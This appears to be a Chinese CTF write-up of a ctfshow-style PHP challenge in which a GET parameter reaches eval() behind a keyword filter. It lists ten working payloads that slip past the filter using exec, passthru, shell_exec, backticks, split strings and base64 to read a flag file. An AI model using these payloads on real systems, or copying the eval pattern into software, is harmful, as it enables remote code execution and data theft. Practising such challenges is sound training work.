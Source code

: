 ```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里过滤了关键字flag，system还有php，由于过滤了system我们需要使用其他的系统函数进行命令执行

payload:

> 1. c=printf(exec("cat%20fl*"));
>
> 2. c=echo exec("cat f\lag.p\hp");
>
> 3. c=show_source(scandir(".")[2]); (这个函数会返回一个包含当前目录下所有文件和目录项的数组)
>
> 4. c=highlight_file(next(array_reverse(scandir("."))));
>
> 5. c=passthru("tac fla*");
>
> 6. c=echo \`tac fla*\`;
>
> 7. c=$a=sys;$b=tem;$c=$a.$b;$c("tac fla*");*
>
> 8. c=echo shell_exec("tac fla*");
>
> 9. c=eval($_GET[1]);&1=system("tac flag.php");
>
> 10. c=passthru(base64_decode("Y2F0IGZsYWcucGhw=="));(base64绕过)
>
>     ......

#### web31
